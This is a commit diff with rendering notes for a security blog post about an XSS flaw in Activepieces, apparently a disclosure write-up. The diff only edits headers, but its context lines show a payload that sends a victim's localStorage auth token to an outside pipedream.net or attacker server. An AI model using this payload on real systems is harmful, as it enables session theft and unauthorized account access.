

Before and after one commit to J0LGER/bloghub, a Jekyll site: the page built from _posts/2023-04-10-XSS-On-Steroids.md, in a window 1280 px wide and 900 px high. Shown: the whole window, without its empty margins (208-989 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced.

Commit message:
fix: syntax fixes for header

````diff
--- a/_posts/2023-04-10-XSS-On-Steroids.md
+++ b/_posts/2023-04-10-XSS-On-Steroids.md
@@ -9,7 +9,7 @@ permalink: /bloghub/xss-on-steroids/
 
 {% raw %}
 
-# XSS on Steroids | Gaining Unauthenticated Access
+## Introduction
 
 [Activepieces](https://www.activepieces.com/) is an open-source business automation tool, aka the open-source alternative for *Zapier*, which helps individuals automate flows and their work in a flexible UI environment without the need to write code, for example, you can build automation with *Activepieces* to send a Slack notification for each new Trello card.
 
@@ -111,7 +111,7 @@ test' },'*')} else alert('poc');//
 test' },'*')} else { const xhr = new XMLHttpRequest();xhr.open('GET', '[https://](https://enxwjqx3bxw4.x.pipedream.net/)<your server>' + localStorage.getItem('token'));xhr.send(); }//
 ```
 
-### Patch
+## Patch
 
 The vulnerability was mitigated by passing the *params[’code’]* to `encodeURIComponent()`.
 
````
